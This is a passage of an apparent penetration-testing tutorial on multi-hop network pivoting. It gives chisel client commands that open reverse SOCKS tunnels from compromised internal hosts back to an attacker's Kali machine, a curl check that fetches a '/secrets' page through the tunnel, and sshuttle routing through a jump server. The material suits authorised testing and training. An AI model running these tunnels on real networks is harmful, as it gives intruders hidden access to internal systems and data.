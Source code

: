 ### **Step 3: Second Hop (Web Server → Internal Host)**
**On the internal host (192.168.1.10)**:
Via the first hop SOCKS proxy (10.0.0.5:1080)
```
./chisel client -v --auth user:pass --proxy http://10.0.0.5:1080 1.1.1.1:8080 R:1081:socks
```
- `--proxy`: use the first hop proxy
- `R:1081:socks`: new port 1081 on Kali for 2nd hop
**Check:**
```
curl --socks5-hostname 127.0.0.1:1081 http://192.168.1.10/secrets
```

### **Step 4: Third Hop (Internal Host → Target Server)**
**On Target Server (172.16.0.20)**:
```
./chisel client -v --auth user:pass --proxy http://192.168.1.10:1081 1.1.1.1:8080 R:1082:socks
```
- `R:1082:socks`: port 1082 on Kali for 3rd hop

**Result:**
via `127.0.0.1:1082` network 172.16.0.0/24 is available on Kali
via `127.0.0.1:1081` network 192.168.1.0/24 is available on Kali
via `127.0.0.1:1080 network 10.0.0.0/24 is available on Kali
---
# 2. Pivoting via SSHuttle (SSH-VPN)

**How ​​it works:**
- **"VPN over SSH"** — routes traffic through an SSH tunnel without configuring a VPN.
- Automatically **forwards subnets** through the specified SSH server.
- Does not require rights on the remote machine (unlike a full-fledged VPN).

**Example command:**
```
sshuttle -r user@jump-server 192.168.1.0/24
```
- `-r` — SSH server to jump to.
- `192.168.1.0/24` — subnet that will go through the tunnel.

**When to use?**
- You need **transparent access** to the internal network (like a VPN, but simpler).
- Already have **SSH access** to the jump server.

### **Step 1: First Hop (Kali → Web Server)**
**Kali Command:**
```
sshuttle -r user@10.0.0.5 10.0.0.0/24 -e "ssh -i ~/.ssh/jump1_key"
```
- `-r user@10.0.0.5`: SSH connection to the first hop.
- `10.0.0.0/24`: routable subnet.
- `-e`: specifies the SSH command with the key.
**Where executed:**
The command is run on Kali. Traffic for 10.0.0.0/24 goes through the Web Server.
